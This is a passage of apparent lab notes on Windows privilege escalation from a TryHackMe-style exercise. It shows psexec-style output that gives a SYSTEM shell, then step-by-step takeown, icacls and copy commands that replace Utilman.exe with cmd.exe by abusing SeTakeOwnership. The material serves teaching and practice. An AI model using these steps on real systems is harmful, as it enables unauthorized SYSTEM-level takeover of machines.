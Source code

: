    [*] Requesting shares on 10.10.175.90.....
    [*] Found writable share ADMIN$
    [*] Uploading file nfhtabqO.exe
    [*] Opening SVCManager on 10.10.175.90.....
    [*] Creating service RoLE on 10.10.175.90.....
    [*] Starting service RoLE.....
    [!] Press help for extra shell commands
    Microsoft Windows [Version 10.0.17763.1821]
    (c) 2018 Microsoft Corporation. All rights reserved.

    C:\Windows\system32> whoami
    nt authority\system
    ```  
    </detalis>

- SeTakeOwnership  
    The SeTakeOwnership privilege allows a user to take ownership of any object on the system, including files and registry keys, opening up many possibilities for an attacker to elevate privileges, as we could, for example, search for a service running as SYSTEM and take ownership of the service's executable.  
    <details>
    <summary>DEMO</summary>

    <img src="https://user-images.githubusercontent.com/73976100/224529408-488b6808-1c48-4b57-a215-97e6210189de.png" width="600">  

    We'll abuse `utilman.exe` to escalate privileges this time. Utilman is a built-in Windows application used to provide Ease of Access options during the lock screen:  
    <img src="https://user-images.githubusercontent.com/73976100/224529635-8f906fb6-d7b9-4fc2-9154-303d0fa31e6b.png" width="400">  
    Since Utilman is run with SYSTEM privileges, we will effectively gain SYSTEM privileges if we replace the original binary for any payload we like. As we can take ownership of any file, replacing it is trivial.  

    To replace utilman, we will start by taking ownership of it with the following command:  
    ```
    C:\> takeown /f C:\Windows\System32\Utilman.exe

    SUCCESS: The file (or folder): "C:\Windows\System32\Utilman.exe" now owned by user "WINPRIVESC2\thmtakeownership".
    ```  
    To give your user full permissions over utilman.exe you can use the following command:  
    ```
    C:\> icacls C:\Windows\System32\Utilman.exe /grant THMTakeOwnership:F
    processed file: Utilman.exe
    Successfully processed 1 files; Failed processing 0 files
    ```  

    After this, we will replace utilman.exe with a copy of cmd.exe:  
    ```
    C:\Windows\System32\> copy cmd.exe utilman.exe
        1 file(s) copied.
    ```  

    To trigger utilman, we will lock our screen from the start button:  
    <img src="https://user-images.githubusercontent.com/73976100/224529934-eefe5e3d-61e4-438c-b66a-56c1d36ff60e.png" width="200">  
